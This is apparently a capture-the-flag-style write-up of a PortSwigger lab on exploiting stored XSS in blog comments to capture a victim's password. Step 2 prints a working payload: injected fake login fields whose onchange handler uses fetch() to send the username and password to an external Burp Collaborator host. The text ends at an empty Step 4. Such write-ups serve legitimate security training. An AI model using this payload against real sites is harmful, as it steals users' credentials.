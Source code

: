 # Lab: Exploiting cross-site scripting to capture passwords

This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's username and password then use these credentials to log in to the victim's account.

**NOTE**

*To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.*

*Some users will notice that there is an alternative solution to this lab that does not require Burp Collaborator. However, it is far less subtle than exfiltrating the credentials.*

# Step 1 Find XSS vuln in comments function:

Adding a POC payload into a blog-post comment:

![image](https://user-images.githubusercontent.com/83407557/210614348-97de9160-9930-4c86-bfea-04c84d9521cc.png)

When I go back and view my comment, the page tries to print, verifying XSS:

![image](https://user-images.githubusercontent.com/83407557/210614535-9b0d9049-b482-451b-9375-3cc82d9e31b4.png)

# Step 2 Create a password stealing XSS payload

First I need to grab my collaborator's URL:

![image](https://user-images.githubusercontent.com/83407557/210614710-a6c10114-64e1-452b-a59d-bb52087ad3b4.png)

`tvsapiadoh42t1t7y6k4tb6lvc13pudj.oastify.com`

Then I craft an XSS payload with this URL:

```html
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('http://tvsapiadoh42t1t7y6k4tb6lvc13pudj.oastify.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

# Step 3 use payload in a comment

![image](https://user-images.githubusercontent.com/83407557/210615970-0e5885ff-9ce2-4b0c-ad3a-511a94f0c008.png)

# Step 4 poll collaborator



